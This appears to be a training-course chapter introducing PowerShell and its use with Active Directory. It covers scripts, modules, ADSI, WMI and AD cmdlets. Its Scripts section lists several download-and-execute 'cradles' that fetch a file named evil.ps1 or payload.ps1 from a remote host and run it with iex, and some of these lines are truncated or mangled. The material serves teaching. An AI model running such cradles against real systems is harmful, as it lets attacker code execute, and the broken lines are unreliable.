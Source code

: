 # 2.1 - Introduction to PowerShell

## **What is PowerShell?**

{% embed url="https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4" %}
[https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4](https://learn.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.4)
{% endembed %}

**PowerShell** is a powerful scripting and automation platform developed by Microsoft. It combines the flexibility of a scripting language with the functionality of a command-line shell, enabling users to manage systems, automate repetitive tasks, and access system components programmatically.

* **Cross-Platform**: Available on Windows, macOS, and Linux.
* **Object-Oriented**: Operates with objects instead of plain text, allowing for more precise and flexible scripting.
* **Integration**: Seamlessly integrates with .NET and other Microsoft technologies.
* **Use Cases**: Ideal for administrative tasks, system configuration, and cybersecurity operations.

<div align="left"><figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption><p><a href="https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large">https://pbs.twimg.com/media/Duju2mhX4AE6a0u.jpg:large</a></p></figcaption></figure></div>

{% embed url="https://www.stationx.net/powershell-cheat-sheet/" %}
[https://www.stationx.net/powershell-cheat-sheet/](https://www.stationx.net/powershell-cheat-sheet/)
{% endembed %}

## **Core Components**

### **Scripts**

**Scripts**: `.ps1` files containing PowerShell commands for automating tasks.

*   A script to list all running services:

    ```powershell
    Get-Service | Where-Object { $_.Status -eq "Running" }
    ```
* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

* Download execute [cradle](https://github.com/danielbohannon/Invoke-CradleCrafter)

```powershell
iex (New-Object Net.WebClient).DownloadString('https://webserver/payload.ps1') sponse
```

```powershell
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://192.168.230.1/evil.ps1 ');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $re
```

```powershell
PSv3 onwards - iex (iwr 'http://192.168.230.1/evil.ps1')
```

```powershell
$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://192.168.230.1/evil.ps1',$false);$h.send();iex
$h.responseText
```

```powershell
$wr = [System.NET.WebRequest]::Create("http://192.168.230.1/evil.ps1")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```

Check out Invoke-CradleCrafter:

{% embed url="https://github.com/danielbohannon/Invoke-CradleCrafter" %}
[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)
{% endembed %}



* Load a PowerShell script using dot sourcing:

```powershell
C:\AD\Tools|PowerView.ps1
```

### **Modules**

**Modules**: Packages of reusable cmdlets, scripts, and resources.

* Popular modules include:
  * `ActiveDirectory`: Manages AD objects.
  * `Pester`: For testing scripts.
  * `PSReadLine`: Enhances the shell experience.
* Install with:

```powershell
Install-Module -Name ModuleName
```

* A module (or a script) can be imported using:

```powershell
Import-Module C:\AD\Tools|AdModule-master\ActiveDirectory\ActiveDirectory.psd1
```

* All the commands into a module can be listed using:

```powershell
Get-Command -Module <modulename>
```

## **PowerShell for Active Directory (AD)**

PowerShell is a primary tool for managing AD environments.

#### **ADSI (Active Directory Service Interfaces)**

ADSI is a set of COM interfaces for interacting with directory services like Active Directory. It enables querying, modifying, and managing directory objects without requiring additional modules. PowerShell can use ADSI for lightweight operations, especially on systems without the AD module. ADSI uses LDAP paths to locate objects and execute changes. It is versatile but requires knowledge of directory structure and object attributes. Common use cases include user management, password resets, and retrieving directory information. ADSI is powerful for automation in legacy environments or restrictive setups.

#### **.NET Classes for AD**

.NET classes in PowerShell provide direct access to Active Directory operations via the .NET Framework. Key classes like `DirectorySearcher` and `DirectoryEntry` allow querying and managing directory objects. These classes offer fine-grained control over AD queries and modifications. Unlike cmdlets, .NET classes require coding expertise but are highly flexible. They are useful for advanced scenarios like custom searches or handling large datasets. .NET integration with PowerShell allows developers to bypass module dependencies. This approach is ideal for scripting in environments with strict constraints.

**Native Executables**

Native executables like `dsquery`, `net user`, and `nltest` interact directly with Active Directory without PowerShell. They are pre-installed on Windows systems, making them a reliable fallback. These tools are useful for quick queries, user enumeration, or domain configuration checks. For example, `dsquery` retrieves specific AD objects, while `net user` checks group memberships. Native executables can be used in combination with PowerShell for hybrid scripts. They are particularly valuable in environments where PowerShell use is restricted. However, they are less script-friendly compared to PowerShell cmdlets or .NET classes.

**4. WMI (Windows Management Instrumentation) with PowerShell**

WMI is a Windows management framework for accessing system and network information, including Active Directory. PowerShell leverages WMI to query or modify system and directory data remotely. Common uses include querying system information, AD containers, or domain-related data. WMI supports cross-system communication, making it useful for remote administration. It uses namespaces and classes like `DS_Container` to access directory objects. WMI is efficient for real-time monitoring and automation tasks. It is especially valuable in environments where standard AD tools are unavailable.

**5. Active Directory Module (AD Module)**

The AD module is a PowerShell module providing cmdlets for seamless Active Directory management. It simplifies complex AD operations, such as querying users (`Get-ADUser`) or managing groups (`Add-ADGroupMember`). The module integrates tightly with the AD schema, ensuring compatibility and ease of use. It is ideal for administrators who prefer high-level commands over low-level scripting. Common administrative tasks, like resetting passwords or managing group policies, are easily automated. The AD module requires installation on systems that need to run AD-specific cmdlets. It is a go-to tool for modern AD management via PowerShell.

### **Common AD Tasks**

*   **Querying AD Objects**:

    ```powershell
    Get-ADUser -Filter * -SearchBase "OU=IT,DC=example,DC=com"
    ```
*   **Modifying Users or Groups**:

    ```powershell
    New-ADUser -Name "John Doe" -SamAccountName "jdoe" -UserPrincipalName "jdoe@example.com"
    Add-ADGroupMember -Identity "IT_Group" -Members "jdoe"
    ```

### **Benefits of PowerShell with AD**

1. Automation of repetitive administrative tasks.
2. Bulk modifications (e.g., importing users from CSV).
3. Real-time monitoring and auditing through queries.
